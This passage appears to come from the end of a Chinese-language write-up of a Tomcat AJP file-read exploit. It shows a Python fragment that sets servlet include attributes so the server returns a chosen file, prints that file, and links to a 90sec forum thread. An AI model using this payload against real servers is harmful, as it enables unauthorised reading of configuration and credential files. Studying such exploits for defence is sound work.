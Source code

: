 ```python
    {'name': 'req_attribute', 'value': [
        'javax.servlet.include.path_info', args.file]},
    {'name': 'req_attribute', 'value': [
        'javax.servlet.include.servlet_path', '/']},
], lfi=args.lfi)
print('----------------------------')
print("".join([d.data for d in data]))
```

参考链接

https://forum.90sec.com/t/topic/801